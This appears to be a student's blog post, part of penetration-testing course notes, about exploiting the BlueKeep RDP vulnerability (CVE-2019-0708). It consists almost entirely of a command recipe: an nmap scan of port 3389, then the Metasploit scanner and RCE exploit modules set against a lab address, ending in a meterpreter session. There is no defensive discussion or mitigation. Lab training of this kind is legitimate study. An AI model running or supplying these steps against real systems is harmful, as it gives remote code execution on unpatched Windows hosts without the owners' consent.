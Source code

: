 ```yaml
---
layout: post
title: "Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)"
date: "2022-09-16"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - System/Host Based Attacks
---
```


# Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
```
sudo nmap -p 3389 10.10.10.7

PORT        STATE   SERVICE
3389/tcp    open    ms-wbt-server
```

```
msfconsole

search BlueKeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
show options
set RHOSTS 10.10.10.7
run
search BlueKeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options
set RHOSTS 10.10.10.7
exploit
show targets
set target 2
exploit
meterpreter> sysinfo
meterpreter> getuid
```
